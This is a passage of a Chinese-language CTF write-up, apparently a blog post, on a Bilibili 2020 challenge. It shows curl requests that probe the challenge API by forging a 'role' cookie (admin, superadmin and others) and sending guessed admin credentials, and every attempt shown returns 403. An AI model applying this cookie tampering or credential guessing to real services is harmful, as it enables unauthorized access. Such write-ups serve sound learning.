 这回 `<script>...</script>` 在 `<body>...</body>` 里。

先用 curl 发一个 GET 看看。

```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/4
{"code":"200","data":"","msg":""}
```

HTTP response code 是 200，起码服务器没有拒绝我们；但是 msg 里什么都没有啊？还得继续猜。

再回到网页里看看。看看请求头和回应头里有什么东西。

[![](image/2020-10-24-bilibili-ctf/2020-10-25_22-47-05.png)](image/2020-10-24-bilibili-ctf/2020-10-25_22-47-05.png)

cookie 里除了 session，还有个 `role=(XXX)` 的值。突然注意到这个以前没用上的 `role`。前面的题都只用了那个用作登陆验证的 `session`。

把这串值传过去。

```bash
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
```

？被服务器拒绝了？权限不够吗？

试试把上一道题的账号和密码传过去。

```bash
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -d 'name=admin' -d 'subject=bilibili' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -d 'username=admin' -d 'passwd=bilibili' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -u 'admin:bilibili' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
```

行……继续猜。直接改role呢？

```bash
$ curl -b 'session=(my cookie); role=admin'  -X GET http://45.113.201.36/api/ctf/4{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=superadmin'  -X GET http://45.113.201.36/api/ctf/4{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=administrator'  -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
```
